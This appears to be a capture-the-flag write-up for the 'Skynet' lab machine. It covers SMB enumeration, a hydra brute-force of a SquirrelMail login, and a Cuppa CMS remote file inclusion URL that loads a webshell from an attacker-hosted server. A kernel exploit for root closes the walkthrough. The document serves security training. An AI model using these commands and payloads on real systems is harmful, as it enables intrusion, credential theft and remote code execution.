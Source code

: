# Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV <target_ip>
```

![Alt text](../Screenshots/Skynet/nmap.png)

Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:
![Alt text](../Screenshots/Skynet/users.png)

It gave me following share:
![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:
![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:
![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:
![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

Now click on the first mail having subject **Samba password reset** and you will find the password:

![Alt text](../Screenshots/Skynet/password.png)

Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:

![Alt text](../Screenshots/Skynet/hidden_directory.png)

I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:

![Alt text](../Screenshots/Skynet/hidden_dir_enum.png)

Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

It showed me the result of ls command: Now I ran some commands to find the directories and all that stuff. Then I set cmd in url as `cat /home/milesdyson/user.txt` and it gave me the flag:

![Alt text](../Screenshots/Skynet/user_flag.png)

Now we need to escalate our privileges. First thing I done is I ran the linpeas on the target machine and found come known cve's. The first I tried was:

![Alt text](../Screenshots/Skynet/exploit_name.png)

I Downloaded it's exploit from exploit-db, transferred it to the target machine. Compiled it and ran it, Boom! we go the root shell:

![Alt text](../Screenshots/Skynet/root_shell.png)

Now, you can read the root flag from `/root/root.txt`.
